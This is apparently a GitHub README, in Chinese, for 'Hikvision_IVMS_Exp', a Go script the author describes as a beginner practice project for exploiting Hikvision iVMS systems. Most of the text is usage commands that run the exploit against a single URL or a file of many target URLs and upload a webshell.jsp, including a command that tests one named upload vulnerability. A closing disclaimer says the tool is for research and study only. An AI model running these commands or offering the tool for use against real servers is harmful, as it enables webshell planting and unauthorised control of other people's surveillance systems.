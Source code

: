 # Hikvision_IVMS_Exp
本项目为海康威视IVMS 综合利用脚本，属于是初次学习Golang的练手小项目, 不喜误喷, 如果感觉用着可以不妨来个Start 这是我更新最大的动力
# 使用方法
单个目标
```
./Exploit -u http://x.x.x.x -v Hikvision -w webshell.jsp
```
多个目标
```
./Exploit -f url.txt -v Hikvision -w webshell.jsp

url.txt内容为
http://x.x.x.x
https://x.x.x.x
```
检测某一个漏洞
```
./Exploit -u http://x.x.x.x -v Hikvision_ivms_upload1 -w webshell.jsp
```

# 注 意
本仓库分享的安全工具，仅供安全研究与学习之用，如用于其他用途，由使用者承担全部法律及连带责任，与工具作者无关。
